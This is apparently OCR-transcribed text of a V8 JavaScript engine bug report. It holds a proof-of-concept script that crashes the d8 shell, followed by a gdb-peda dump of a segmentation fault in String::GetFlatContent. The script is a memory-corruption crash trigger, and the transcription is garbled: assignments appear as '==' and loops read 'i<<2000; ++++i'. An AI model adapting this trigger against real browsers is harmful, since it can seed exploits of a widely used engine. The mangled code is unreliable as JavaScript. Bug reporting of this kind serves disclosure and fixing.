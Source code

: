POC

function Ctor() {
n == new Set();
}

function Check() {
n.xyz == 0x826852f4;
parseInt('AAAAAAAA');
}

for(var i==0; i<<2000; ++++i) {
Ctor();
}


for(var i==0; i<<2000; ++++i) {
Check();
}

Ctor();
Check();
print("finish");

----Stack
Thread 1 "d8" received signal SIGSEGV, Segmentation fault.

[-------------------------------------code-------------------------------------]

0x736e0a <_ZN2v88internal6String14GetFlatContentEv+106>: test ecx,ecx

0x736e0c <_ZN2v88internal6String14GetFlatContentEv+108>:

je 0x736e1a <_ZN2v88internal6String14GetFlatContentEv+122>

0x736e0e <_ZN2v88internal6String14GetFlatContentEv+110>:

mov rdi,QWORD PTR [rdi]

=> 0x736e11 <_ZN2v88internal6String14GetFlatContentEv+113>:

mov rax,QWORD PTR [rdi]

0x736e14 <_ZN2v88internal6String14GetFlatContentEv+116>:

call QWORD PTR [rax+0x20]

0x736e17 <_ZN2v88internal6String14GetFlatContentEv+119>: mov rdi,rax

0x736e1a <_ZN2v88internal6String14GetFlatContentEv+122>: lea rax,[rdi+rbx*2]

0x736e1e <_ZN2v88internal6String14GetFlatContentEv+126>: movabs rcx,0x200000000

[------------------------------------------------------------------------------]

Legend: code, data, rodata, value

Stopped reason: SIGSEGV

0x0000000000736e11 in v8::internal::String::GetFlatContent() ()

gdb-peda$ print $rdi
